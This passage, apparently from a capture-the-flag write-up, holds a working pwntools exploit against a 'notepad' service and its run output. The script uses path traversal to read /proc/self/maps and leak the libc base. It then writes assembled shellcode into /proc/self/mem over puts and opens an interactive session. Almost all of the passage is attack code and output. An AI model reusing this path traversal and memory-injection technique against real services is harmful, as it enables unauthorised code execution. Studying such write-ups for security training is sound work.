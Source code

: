 ```python
        mov al, 0x1

        xor rdi, rdi
        mov dil, 0x1

        mov rsi, rsp

        xor rdx, rdx
        mov dl, 0x40

        syscall
    """
        
    return socket + connect + write + read + write2console

# Register & Login
init_port = sys.argv[1]
r = remote('10.113.184.121', init_port)
random = os.urandom(1).hex()
dealing_cmd(r, 2, random=random)
dealing_cmd(r, 1, random=random)

# Read /proc/self/maps to leak Libc Base
maps_layout = read_any_file(b'/proc/self/maps').split('\n')
libc_base = int(maps_layout[7][:12], 16)
puts_addr = libc_base + libc.symbols['puts']
log.success(f"Libc Base address: {hex(libc_base)}")
log.success(f'Puts Address: {hex(puts_addr)}')

# Get Shellcode
shellcode = asm(ugly_shellcode())
log.info(f'Shellcode = {shellcode}')

# write 2 /proc/self/mem
file_name = b'/proc/self/mem'
path = b'../../../../../../' + b'/' * (89 - len(file_name)) + file_name
dealing_cmd(r, 4, note_name=path, content=shellcode, offset=puts_addr)

r.interactive()
```
:::

```bash
$ python exp-2.py 28961
[*] '/lib/x86_64-linux-gnu/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 10.113.184.121 on port 28961: Done
[+] Command Register Successful
[+] Command Login Successful
[+] 55cd58958000-55cd58959000 r--p 00000000 08:01 22676106                   /home/notepad/notepad
    55cd58959000-55cd5895b000 r-xp 00001000 08:01 22676106                   /home/notepad/notepad
    55cd5895b000-55cd5895c000 r--p 00003000 08:01 22676106/home/notepad/notepad
    55cd5895c000-55cd5895d000 r--p 00003000 08:01 22676106                   /home/notepad/notepad
    55cd5895d000-55cd5895e000 rw-p 00004000 08:01 22676106                   /home/notepad/notepad
    55cd595e1000-55cd59602000 rw-p 00000000 00:00 0                          [heap]
    7f8b72c44000-7f8b72c47000 rw-p 00000000 00:00 0
    7f8b72c47000-7f8b72c6f000 r--p 00000000 08:01 22554614                   /usr/lib/x86_64-linux-gnu/libc.so.6
    7f8b72c6f000-7f8b72e04000 r-xp 00028000 08:01 22554614/usr/lib/x86_64-linux-gnu/libc.so.6
```